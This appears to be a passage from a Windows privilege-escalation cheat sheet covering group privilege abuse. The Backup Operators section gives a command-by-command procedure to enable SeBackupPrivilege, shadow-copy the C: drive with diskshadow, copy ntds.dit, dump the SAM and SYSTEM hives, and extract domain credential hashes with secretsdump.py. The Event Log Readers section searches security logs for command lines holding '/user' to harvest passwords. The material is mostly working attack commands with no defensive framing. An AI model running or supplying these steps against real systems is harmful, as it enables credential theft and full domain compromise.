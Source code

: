 
## 3. Windows Group Privileges

### Backup Operators

#### Enable Privileges and Copy Protected Files
```powershell
# Step 1: Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Step 2: Enable privilege
Set-SeBackupPrivilege

# Step 3: Copy protected file
Copy-FileSeBackupPrivilege 'C:\Confidential\file.txt' .\file.txt
```

#### Copy NTDS.dit
```cmd
# Step 1: Create shadow copy with diskshadow
diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

# Step 2: Copy NTDS.dit
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\ntds.dit

# Step 3: Backup registry hives
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV

# Step 4: Extract credentials (on Kali)
secretsdump.py -ntds ntds.dit -system SYSTEM.SAV LOCAL
```

### Event Log Readers

#### Search Security Logs
```powershell
# Using wevtutil
wevtutil qe Security /rd:true /f:text | Select-String "/user"

# Using Get-WinEvent
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
